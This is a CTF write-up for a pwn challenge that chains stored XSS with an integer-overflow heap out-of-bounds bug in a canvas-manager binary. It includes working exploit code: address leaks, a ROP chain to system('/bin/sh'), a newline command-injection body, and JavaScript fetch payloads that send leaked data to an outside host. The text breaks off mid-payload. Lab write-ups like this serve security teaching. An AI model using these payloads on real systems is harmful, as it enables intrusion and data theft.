# Canvas of Fear

**Category**: PWN
**Points**: 100
**Solves**: 106
**Author**: HeaZzy

**Challenge Description**:
A dark and creepy web application where users can commission custom artworks from a mysterious artist. But beware... if your fear is too strong your fear might just take the control!

**Artifact Files**:
[Canvas_of_fear.zip](./Canvas_of_fear.zip)

## Challenge Overview

This challenge is a bit unusual for a pwn challenge! When I started the instance to test the challenge before diving into the source code, I discovered that this challenge didn't give us an IP and netcat PORT like most pwn challenges, but rather an actual website:



Until now, submitting a message through the form doesn't seem to take us anywhere or give us more information... So let's look at the provided sources!

## Sources

Indeed, in the sources we discover there is much more to this challenge. We have:
- `server.py`: A Flask server with many "administrator" features reserved for connections from `127.0.0.1`
- `canvas_manager`: A binary that will undoubtedly be our main pwning target for this challenge
- `libc.so.6` and `ld-linux-x86-64.so.2`: The libc and ld shared objects used by the binary on the remote

Looking more closely at the web server source code, we can see that the admin features interact directly with the `canvas_manager` binary. We will therefore need to exploit them through this web application — quite a nice idea! It remains to figure out how to activate these endpoints given that on the remote our IP will never be `127.0.0.1`!

We can also find the admin panel that allows drawing directly through the API and therefore interacting with the binary — pretty cool:



Those familiar with cybersecurity will guess that for this type of case there's nothing better than a good **XSS** that would allow us to execute JavaScript in the browser of a user who satisfies the condition `IP_CLIENT = 127.0.0.1` from the server's perspective, and thus bypass the code's filters.

## Searching for XSS

For the XSS there's no need to look very far, since we can find that the messages sent earlier via the form we have access to are displayed in a `/admin/messages` endpoint:

```py
@app.route('/admin/messages')
def admin_messages():
    if request.remote_addr not in ['127.0.0.1', '::1']:
        return "Access denied. Admin access required.", 403
    with messages_lock:
        messages = list(global_messages)
    resp = make_response(render_template('admin_messages.html', messages=messages))
    delete_messages()
    return resp
```

By default, Flask blocks injection attempts in its templates unless you explicitly tell it not to with the `safe` keyword. We can see that this is exactly what happens in the `admin_messages.html` template:

```html
<div class="messages">
    
        
        <div class="message">
            <div class="message-header">
                <div class="message-avatar">{{ ((msg.author or 'Anonymous')|safe)|upper }}</div>
                <div class="author">{{ (msg.author or 'Anonymous') | safe }}</div>
            </div>
            <div class="content">{{ (msg.content or '') | safe }}</div>
        </div>
        
    
        <div class="empty">
            <div>No messages yet.</div>
            <div style="margin-top: 10px; font-size: 14px;">The void is silent...</div>
        </div>
    
</div>
```

We can verify this locally by starting the Flask server and checking the `/admin/messages` panel after sending a standard XSS payload: `<script>alert(1)</script>`:



## Analysis of the Backend Binary

We now have our exploitation vector to interact with the backend executable `canvas_manager`. We can see how the API sends messages to it in the `server.py` source code:

```py
@app.route('/api/canvas/create', methods=['POST'])
def api_create_canvas():
    # ...
    response = send_command(f"CREATE {canvas_id} {width} {height}")
    # ...

@app.route('/api/canvas/set', methods=['POST'])
def api_set_pixel():
    # ...
    response = send_command(f"SET {data.get('id')} {data.get('x')} {data.get('y')} {color}")
    # ...

@app.route('/api/canvas/get/<int:canvas_id>', methods=['GET'])
def api_get_canvas(canvas_id):
    # ...
    response = send_command(f"GET {canvas_id}")
    # ...

@app.route('/api/canvas/list', methods=['GET'])
def api_list_canvas():
    # ...
    response = send_command("GETALL")
    # ...

@app.route('/api/canvas/delete/<int:canvas_id>', methods=['DELETE'])
def api_delete_canvas(canvas_id):
    # ...
    response = send_command(f"DELETE {canvas_id}")
    # ...

@app.route('/api/canvas/exit', methods=['POST'])
def api_exit_binary():
    # ...
    binary_process.sendline("EXIT".encode())
    # ...
```

The `send_command` utility here is interesting since it passes the data decoded from the HTTP request directly to the process managed by the `pwntools` library. This is interesting because it implies we can inject commands with escaped or URL-encoded `\n` newlines, which will be useful later if we manage to open a shell in the binary and inject commands through the API.

We can verify that the binary does support our findings:



From here, I used [Ghidra](http://ghidra.net/) to reverse the binary and find the security flaw that would allow us to open a shell through it.

### Canvas Creation

The canvas creation function, after being reversed by me in **Ghidra**, looks like this:



We can see that canvas creation takes as arguments a canvas identifier number, a **width**, and a **height** argument. The program then checks that the height and width are less than 51 (so `0 <= width / height <= 50` for dimensions). Once the check is complete, an allocation of size `0x18` is made for the canvas data structure, which stores the following parameters:
- `width`
- `height`
- id number
- pointer to data block

We can also see that there is a limit of 10 canvases in this program, and that it allocates a memory block of size `width*height*3`. This is used to store the RGB components of each pixel of the canvas.

### Setting Pixel Values in a Canvas



This function takes as arguments the canvas identifier number, the X and Y position of the pixel, and the RGB components stored in an int `data`. The most interesting part for us is here: the variable *X* is used to store the result of the calculation `y * height + x`, which corresponds to an index computation in a 2D in-memory array. This calculation is problematic because *X* is an **int** — that is, a signed 32-bit integer. A calculation involving multiplication and addition on user-supplied, unvalidated values can easily overflow the 32-bit storage limit. We therefore have an **Integer Overflow** that gives us **Out of Bounds** access into a canvas's data.

The more attentive readers will notice there is a check `x < first->width * first->height`, however this matters little since we can make our **Integer Overflow** produce a negative number that still passes the check, giving us **negative Out of Bounds** access (we can overwrite memory that precedes the pixel data block).

Let's verify our theory:



For the curious, performing the above operation in a C program with an `int` type will yield the result `-8` (the program actually multiplies by 3 after for the index of the RGB bytes so it accesses index -24), which therefore does pass the program's check while going outside the intended memory region!

### Reading Pixel Values from a Canvas



This function takes only a canvas identifier as argument and dumps all the RGB values of that canvas, displaying each row in the following format:

```
(0x000000, ..., 0xffffff)
.
.
.
(0x000000, ..., 0xffffff)
```

It will be very useful for extracting information from this program and obtaining our leaks from the write primitive we discovered earlier!

### Deleting a Canvas



This function simply deletes a canvas by its identifier. It is mentioned here because it will be useful later in the exploitation but has no particular flaw. We can see that the chunk containing the RGB data is freed to the allocator first, then the canvas data structure is freed as well. The canvas list properly removes the element, so no exploitable **Use After Free**.

## Exploitation

We found an exploitable vulnerability in this program! Now we need to convert this small primitive into **RCE**! First, I developed a traditional Python exploit before using it to develop successive XSS payloads enabling exploitation through the site alone, without admin rights.

### Pwning the Binary

Here is the exploitation procedure I implemented for this binary:

1. Create 3 canvases with the `CREATE` command
2. Use the vulnerability to overwrite the size parameter of canvas "1"'s structure so it overflows into the next one
3. Delete canvas 2, located just after the targeted canvas from the previous step. It must be large enough that its data chunk is placed in the `unsortedbin`, adding it to a doubly-linked list whose head and tail reside in the main libc arena (in other words, this puts a libc pointer on the heap at runtime, which we can leak with our overflow)
4. Read the contents with the `GET` command of canvas "1". Since we modified its size to make it larger than it really is, part of the data shown to us as RGB values is actually heap metadata from the chunk of canvas "2" that we freed!
5. Retrieve the output and parse it to obtain the libc and heap addresses at runtime
6. Still using the canvas "1" vulnerability, this time target the data pointer of canvas "3". Knowing the libc addresses, my plan was to overwrite a canvas pointer with the address of the **environ** symbol, which holds a pointer to environment variables on the stack. This would let us obtain a stack leak and inject a ROP chain at the return of `main()`!
7. Read canvas 3 to extract the data at the **environ** address and re-parse it as before to obtain the stack leak
8. Repeat the same attack, this time overwriting canvas 3's pointer with the address of `main()`'s return address on the stack
9. Write our ROP chain starting from canvas 3, which now points to `main()`'s return address
10. Call `EXIT` → `main()` returns → our ROP chain executes and opens a shell

In [exp.py](./challenge_files/exp.py), you will find the complete exploit implementing each of these steps.

The following commands perform parts 1 through 4:

```py
cmd(b'CREATE 1 50 50')
cmd(b'CREATE 2 20 20')
cmd(b'CREATE 3 20 20')
cmd(b'DELETE 2')
cmd(b'SET 1 42 8589934591 0x340000')
cmd(b'GET 1')
```

Note that canvas 3 is important to our exploit since it gives us an easy-to-target data pointer for our arbitrary write/read primitive, and also acts as a malloc consolidation blocker to preserve our large chunk in the **unsortedbin** and thus allow us to obtain the libc leak we so desperately need!

I calculated that `(8589934591*50 + 42)*3 = -24` for a 32-bit int, which lets us modify the **height** field of the structure associated with canvas "1". By injecting **0x34** in place of **0x32**, we can slightly overflow into canvas "2"'s data on the heap and display the heap and libc pointers we placed there via the deletion of canvas "2".

We can see that the program dumps a large block of data that does contain what appear to be canvas 2's metadata:



After a bit of formatting and parsing, we can calculate the base addresses and defeat ASLR for both libc and the heap:



Finally, we can proceed by removing the write size limit with the same previous payload but using the value `0xffffff` this time, which will let us write past canvas 1's data and modify canvas 3's data pointer!

With the following lines, we can remove this size limit and modify canvas 3's data pointer to point to **environ** in libc's memory space:

```py
# Unlimited size write
cmd(b'SET 1 42 8589934591 0xffffff', line=False)

# offset is 0x2250 bytes to overwrite BLOCK 3's content ptr
info("target #1 => environ ptr @ " + hex(libc.sym['environ']))
target = unpack(pack(libc.sym["environ"]), endianness='big')
block1 = (target >> 40) & 0xffffff
block2 = (target >> 16) & 0xffffff

cmd(f'SET 1 2928 0 {hex(block1)}'.encode())
cmd(f'SET 1 2929 0 {hex(block2)}'.encode())
cmd(b'GET 3')
```

We then display canvas 3's content with `GET 3` to read the data at **environ**'s address and leak a pointer to the stack. Using the same parsing technique as for the previous leak we obtain this:



We can see that I was able to calculate the pointer to `main()`'s return address from the obtained stack leak! This allows us to move to the final step and write our ROP chain using the same technique:

```py
info("target #2 => main ret @ " + hex(main_ret))
target = unpack(pack(main_ret), endianness='big')
block1 = (target >> 40) & 0xffffff
block2 = (target >> 16) & 0xffffff
cmd(f'SET 1 2928 0 {hex(block1)}'.encode(), line=False)
cmd(f'SET 1 2929 0 {hex(block2)}'.encode())

# now canvas 3's content is located at the main return address on the stack, allowing us to perform a rop chain
pop_rdi = libc.address + 0x2d7a2
ret = libc.address + 0x2c495
binsh = next(libc.search(b'/bin/sh\x00'))
payload = flat({
    0: [
        pop_rdi, binsh,
        ret,
        libc.sym["system"]
    ]
})
for i in range(0, len(payload), 3):
    block = unpack(payload[i:i+3][::-1].ljust(8, b'\x00')) & 0xffffff
    idx = i//3
    cmd(f'SET 3 {idx} 0 0x{block:06x}'.encode())

cmd(b'EXIT')
```

Using exactly the same overwrite method from canvas 3's rewritten data pointer, we manage to write a ROP chain past `main()`'s return address and take control of the program's execution flow! We can then do a simple **ret2libc** with a call to `system("/bin/sh")` that opens a shell through the binary.

All that's left is to send the `EXIT` command to quit `main()` and trigger our payload. In practice, here is the result:



### Building an XSS Chain to Pwn Through the Forwarded Website

Now that we have a clear procedure defined in our exploit to turn our innocent backend program into a shell, we need to successfully carry out our exploit using commands sent through the API — and therefore through the admin bot we'll redirect via our XSS vulnerability (yes, it's quite a puzzle).

To start, I wrote a [payload1.js](./challenge_files/real_exploit/payload1.js) file containing the first part of our exploit without the leaks. So far this just involves creating a bunch of small payloads with the [Fetch API](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API) to execute the corresponding commands on the binary:

```js
// Small example
var res = await fetch("/api/canvas/create", {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
    },
    body: JSON.stringify({
        "id": 1,
        "width": 50,
        "height": 50
    })
});

if(!res.ok) {
    window.location = 'http://nosiume.duckdns.org:5000/?error=payload1_part1'
}
```

To retrieve the leaks from the binary the task is a bit more complex, since we'll need to extract the data by sending it to a webhook or, in my case, a VPS to listen and retrieve the information before moving on to the next step of the payload.

For this I implemented a small Python function that sets up a socket and extracts the data as sent by my JS payloads:

```py
def get_leak_request():
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(('0.0.0.0', 5000))
    sock.listen(5)

    client, _ = sock.accept()
    req = b""
    while True:
        req += client.recv(65535)
        if req == b'':
            break

        if b'{' not in req or b'}' not in req:
            continue
        break

    client.close()
    sock.close()

    data = req[req.find(b'{'):req.find(b'}')+1]
    try:
        json_data = json.loads(data.decode())
    except Exception as e:
        print(e)
        print(req.decode())
        print(data.decode())
        exit(0)

    if 'pixels' in json_data:
        return b64decode(json_data['pixels'])
    elif 'output' in json_data:
        return json_data['output']
    else:
        return b""
```

After testing, the output takes a little time to arrive due to the bot's verification delay, but we do get a hit from our XSS payload that arrives, is parsed, and read as our binary address leaks!!!



From this point, we need to adapt our XSS payloads based on the memory leaks, which we can do fairly easily with Python format strings:

```py
info("target #1 => environ ptr @ " + hex(libc.sym['environ']))
target = unpack(pack(libc.sym["environ"]), endianness='big')
block1 = "#" + hex((target >> 40) & 0xffffff)[2:]
block2 = "#" + hex((target >> 16) & 0xffffff)[2:]

with open("payload2.js", "r") as f:
    payload2 = f"<script type=\"module\">{f.read()}</script>" % (block1, block2)

res = requests.post(f"{TARGET_URL}/api/message", json={
    'content': payload2
})
```

Once again [payload2.js](./challenge_files/real_exploit/payload2.js) just executes the same commands as the binary payload, but through the admin API, which we can extract the same way as the previous leak.



Finally, there's one last XSS payload to generate — this one almost entirely generated at runtime by the exploit script, since we'll need to write a ROP chain through the admin API. For this I crafted a "template" XSS payload that I then used to format each of my write blocks:

```py
template = """var res = await fetch("/api/canvas/set", {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
    },
    body: JSON.stringify({
        "id": %d,
        "x": %d,
        "y": 0,
        "color": "%s"
    })
});

if(!res.ok) {
    window.location = 'http://nosiume.duckdns.org:5000/?error=payload3_part%d'
}
"""

leak = get_leak_request()
data = bytes.fromhex(leak.decode().replace('0x', '').replace(',', '')[:32])
stack_leak = unpack(data[:8])
main_ret = stack_leak - 0x140

info("stack env @ " + hex(stack_leak))
info("main ret @ " + hex(main_ret))

info("target #2 => main ret @ " + hex(main_ret))
target = unpack(pack(main_ret), endianness='big')
block1 = f"#{(target >> 40) & 0xffffff:6x}"
block2 = f"#{(target >> 16) & 0xffffff:6x}"

raw_js = template % (1, 2928, block1, 1)
raw_js += template % (1, 2929, block2, 2)

pop_rdi = libc.address + 0x2d7a2
ret = libc.address + 0x2c495
binsh = next(libc.search(b'/bin/sh\x00'))
payload = flat({
    0: [
        pop_rdi, binsh,
        ret,
        libc.sym["system"]
    ]
})
for i in range(0, len(payload), 3):
    block = unpack(payload[i:i+3][::-1].ljust(8, b'\x00')) & 0xffffff
    idx = i//3
    raw_js += template % (3, idx, f"#{block:06x}", i+3)
```

This payload lets us generate the entire ROP chain write sequence in blocks of 24 bits (3 bytes) RGB, just like in the direct binary exploit! Now all that's left is to make the program call `EXIT` and our target should become a shell.

As we saw earlier, we can call the `/api/canvas/exit` endpoint to "terminate" the program. The problem is that the API forcibly closes the program after sending the command and restarts a new process, which would make our exploit useless.

This is where the message-sending method mentioned earlier in this writeup becomes important. Indeed, if we send a valid request with a body:

```json
{
    "id": 9,
    "x": 0,
    "y": 0,
    "color": "#000000\nEXIT\n"
}
```

The newline is injected by pwntools and thus allows executing another command after the `SET` command, which will fail here since there is no canvas with id "9". This technique therefore lets us call `EXIT` without losing control over our program, which has now become a shell!

We use the same technique to inject system commands into our shell and in our case call the `./read_flag` binary that is kindly provided on the remote and displays the contents of `flag.txt`.

Here is the payload I created to display the flag in the binary's output and send it to my VPS. Note that the API only returns one line of output from the binary at a time, hence the use of several failed requests to extract the error message that contains the output of `./read_flag`:

```py
raw_js += """
var res = await fetch("/api/canvas/set", {
    method: 'POST',
    headers: {
